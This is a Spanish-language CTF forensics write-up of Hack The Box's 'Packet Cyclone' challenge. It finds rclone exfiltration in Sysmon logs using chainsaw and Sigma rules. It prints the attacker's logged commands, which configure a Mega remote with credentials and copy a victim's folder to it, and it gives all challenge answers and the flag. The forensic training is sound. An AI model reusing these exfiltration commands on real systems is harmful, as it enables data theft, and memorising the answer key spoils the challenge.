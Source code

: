 ```yaml
---
layout: single
title: Packet Cyclone - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el quinto desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad fácil y consiste en analizar un archivo de registro de eventos de Windows (.evtx) generado por el servicio Sysmon. En este archivo se registra la ejecución sospechosa del software Rclone a través de la línea de comandos en un equipo con Windows. Nuestra tarea consiste en responder todas las preguntas solicitadas para que la plataforma de HTB nos entregue la flag del desafío."
date: 2023-03-22
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - chainsaw
  - sigma rules
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** easy

## Enunciado

_El amigo y socio de Pandora, Wade, es quien dirige la investigación sobre la ubicación de la reliquia. Recientemente, notó un tráfico extraño proveniente de su host. Eso lo llevó a creer que su host estaba comprometido. Después de una rápida investigación, se confirmó su temor. Pandora intenta ahora ver si el atacante provocó el tráfico sospechoso durante la fase de exfiltración. Pandora cree que el actor malicioso usó rclone para filtrar la investigación de Wade a la nube. Usando la herramienta llamada "chainsaw" y las reglas sigma provistas, ¿puede detectar el uso de rclone de los registros de eventos producidos por Sysmon? Para obtener la bandera, debe iniciar y conectarse al servicio docker y responder todas las preguntas correctamente._

## Archivos del desafio

Se nos entrega un archivo comprimido en formato `.zip`, que contiene una carpeta de registro de logs de Windows con 149 archivos `.evtx`, así como una segunda carpeta llamada `sigma_rules`, que contiene dos reglas sigma en formato `.yaml`. El objetivo de este desafío es utilizar la herramienta `chainsaw`, junto con las reglas sigma, para analizar todos los archivos `.evtx` de Windows y encontrar la ejecución sospechosa del software Rclone. Parece ser que este software ha sido utilizado para exfiltrar información de una computadora previamente comprometida.

La herramienta `chainsaw` esta disponible para `Linux` y `Windows` en su repositorio de [GitHub](https://github.com/WithSecureLabs/chainsaw).

En mi caso, utilizaré la versión para Linux de la herramienta `chainsaw`, y solo trabajaré con los registros presentes en el archivo `Microsoft-Windows-Sysmon Operational.evtx`. Seguiré esta arquitectura de archivos específica según lo indicado en el enunciado del desafío:
```
❯ tree
.
├── chainsaw
│   ├── chainsaw
│   ├── LICENCE
│   ├── mappings
│   │   ├── sigma-event-logs-all.yml
│   │   ├── sigma-event-logs-legacy.yml
│   │   └── sigma-mft-logs-all.yml
│   └── README.md
├── Logs
│   └── Microsoft-Windows-Sysmon%4Operational.evtx
└── sigma_rules
    ├── rclone_config_creation.yaml
    └── rclone_execution.yaml

5 directories, 9 files
```

## Chainsaw

Tal como se indica en su repositorio de GitHub, `Chainsaw` proporciona una potente capacidad de "primera respuesta" para identificar rápidamente amenazas dentro de los artefactos forenses de Windows, como los archivos `.evtx` ubicados en la ruta `C:\Windows\System32\winevt\Logs`. `Chainsaw` ofrece un método genérico y rápido para buscar palabras clave en los registros de eventos y detectar amenazas mediante la integración incorporada de las reglas de detección de Sigma y las reglas de detección personalizadas de `Chainsaw`.

En este caso, el desafío ya nos proporciona las reglas Sigma que utilizaremos, las cuales se encuentran en la carpeta `sigma_rules`. Al ejecutar la herramienta a través de la interfaz de línea de comandos (CLI), el comando se vería de la siguiente manera:
```
❯ ./chainsaw hunt ../Logs -s ../sigma_rules --mapping mappings/sigma-event-logs-all.yml
```

El comando anterior indica a la herramienta `Chainsaw` que se ejecute en modo `hunt` sobre todos los archivos dentro de la carpeta `Logs`. Luego, utiliza todas las reglas sigma proporcionadas en el desafío para la lógica de detección, y por último, utiliza el archivo `sigma-event-logs-all.yml` para el análisis de los registros.

Luego de ejecutar el comando, la salida se verá de la siguiente manera:
![](/assets/images/htb-cyber-apocalypse-packet-cyclone/chainsaw.png)

Y el detalle sería este:
```
CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI'
Company: https://rclone.org 
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v161.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D92B-63F8-B100-000000000900
ProcessId: 3820
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:07.336


CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v'
Company: https://rclone.org
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D935-63F8-B200-000000000900
ProcessId: 5116
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:17.516
```

Con toda la información anterior, ya podemos conectarnos al contenedor Docker de HTB y responder las siguientes preguntas.

# Preguntas

1. ¿Cuál es el correo electrónico del atacante utilizado para el proceso de exfiltración? (por ejemplo: nombre@email.com)
Si observamos los detalles encontrados por la herramienta `Chainsaw`, podemos ver que se ha ejecutado el siguiente comando a través de PowerShell:
```
rclone.exe config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI
```
`Respuesta: majmeret@protonmail.com`

2. ¿Cuál es la contraseña del atacante utilizada para el proceso de exfiltración?
En el comando anterior, también se puede observar esta respuesta:
`Respuesta: FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI`

3. ¿Cuál es el proveedor de almacenamiento en la nube que utiliza el atacante?
Esta respuesta la deduje por descarte, en un principio intenté encontrar alguna URL u otra pista que indicara el proveedor de nube, pero en realidad es tan simple como observar que en el comando anterior se menciona el servicio de Mega.
`Respuesta: mega`

4. ¿Cuál es el ID del proceso utilizado por los atacantes para configurar su herramienta?
Al observar los detalles de las dos detecciones encontradas por Chainsaw, podemos identificar que la primera detección corresponde a la configuración y la segunda detección corresponde a la exfiltración. Por lo tanto, el ID de proceso de la configuración es 3820.
`Respuesta: 3820`

5. ¿Cuál es el nombre de la carpeta que exfiltro el atacante? proporcionar la ruta completa.
Para responder a esta pregunta, debemos examinar el detalle de la segunda detección, que corresponde al proceso de exfiltración. En este caso, se ha ejecutado el siguiente comando a través de PowerShell:
```
"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v
```
`Respuesta: C:\Users\Wade\Desktop\Relic_location`


6. ¿Cuál es el nombre de la carpeta a la que el atacante extrajo los archivos?
En el comando anterior, podemos observar que el destino es `remote:exfiltration`, lo que indica que el nombre de la carpeta es `exfiltration.`
`Respuesta: exfiltration`

Luego de responder estas seis simples preguntas, el contenedor Docker de HTB nos proporcionará la flag.}

## Flag

**HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}**

